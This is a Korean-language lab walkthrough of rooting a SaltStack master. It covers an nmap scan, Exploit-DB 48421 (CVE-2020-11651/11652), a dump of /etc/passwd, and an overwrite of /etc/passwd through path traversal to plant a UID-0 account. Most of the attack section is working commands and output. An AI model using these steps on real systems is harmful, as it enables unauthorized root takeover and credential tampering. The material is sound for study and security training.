




## 정보 수집
nmap포트 스캔을 수행.
```
??$ sudo nmap -sC -sV -p- 192.168.176.62 --min-rate 10000 -vvv
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZz8rKSxgnT5mqHeBPqGlXFj2JJdq21roV/2M8/+0F5/5D1XsaXmbktDpKILFdBcYnLtPxWstxPq+FTbWAJad2uk3BPYWRxidK2dOozE5rKLCyxtkEqs/lO09pM6VKQUi83y5wMwI+9Akkir0AMruuFUSpeCIBt/L98g8OYxzyTsylQATnPxJrrQOWGUQYAvX6jIs25n6d3rmbXk/crg1ZfAVFEHEeR9Y6Bjc2o5YWjMp3XbOZyC4yYseoM6eH2yCSDwu1DzPYrU6cNMfxBf863w1uyhiFk3eIb5jud3kfoxIq6t5JU2DXNhEd4rdXuuinZUSxWiCpHLZ1FCi4tkX5
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA1gj1q7mOswnou9RvKwuX8S7WFBhz2NlaSIpYPQmM0I/vqb4T459PgJcMaJOE+WmPiMnDSFsyV3C6YszM754Hc=
|   256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBzTSyInONbcDxdYULbDvI/HyrQm9m9M5b6Z825jnBEF
53/tcp   open  domain  syn-ack ttl 63 NLnet Labs NSD
80/tcp   open  http    syn-ack ttl 63 nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
4505/tcp open  zmtp    syn-ack ttl 63 ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    syn-ack ttl 63 ZeroMQ ZMTP 2.0
8000/tcp open  http    syn-ack ttl 63 nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1
```

searchsploit으로 zmtp 검색이 안되었지만, 구글 검색을 하니 PoC코드가 조회됨.


PoC코드를 확인 한 뒤 searchsploit -m 옵션으로 다운로드.
```
??$ searchsploit -m 48421                                      
  Exploit: Saltstack 3000.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48421
     Path: /usr/share/exploitdb/exploits/multiple/remote/48421.txt
    Codes: CVE-2020-11652, CVE-2020-11651
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/test/48421.txt
```

PoC코드를 조회해보면 작성자 github 주소가 적혀있으며, 해당 url 접근 시 사용 방법이 나와있음.



## 초기 침투
해당 PoC 코드는 root권한으로 파일업로드 및 다운로드가 가능했으며, /etc/passwd 파일을 조회 시도함.
```
??$ python 48421.py -m 192.168.176.62 -r /etc/passwd
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.176.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=
[+] Attemping to read /etc/passwd from 192.168.176.62
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
mezz:x:997:995::/home/mezz:/bin/false
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
```

mkpasswd를 이용해서 임의의 비밀번호를 SAH-256으로 암호화한 뒤, passwd를 새로 만들어서 관리자 권한으로 test계정 삽입.
```
??$ mkpasswd -m sha-512 test12!
$6$WI8gBkkwDp0TiOyO$IMbiXcv9bCFL3S5Z0KAEkpR46W/XLwmjX2Fd.7OPSQ8b47dKHMlslRw4/8fLMDjtuL4CXwjj9cLom.l5qvv/u0
```
```
??$ cat passwd                                  
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
mezz:x:997:995::/home/mezz:/bin/false
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
test:$6$WI8gBkkwDp0TiOyO$IMbiXcv9bCFL3S5Z0KAEkpR46W/XLwmjX2Fd.7OPSQ8b47dKHMlslRw4/8fLMDjtuL4CXwjj9cLom.l5qvv/u0:0:0:root:/root:/bin/bash
```

PoC코드를 이용해 passwd 덮어쓰기 시도.
```
??$ python 48421.py -m 192.168.176.62 --upload-src passwd --upload-dest ../../../../../../../../../../../etc/passwd
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.176.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=
[+] Attemping to upload passwd to ../../../../../../../../../../../etc/passwd on 192.168.176.62
[ ] Wrote data to file /srv/salt/../../../../../../../../../../../etc/passwd
```

새로 생성한 게정으로 ssh 로그인하면 root권한이 부여되어 있음.

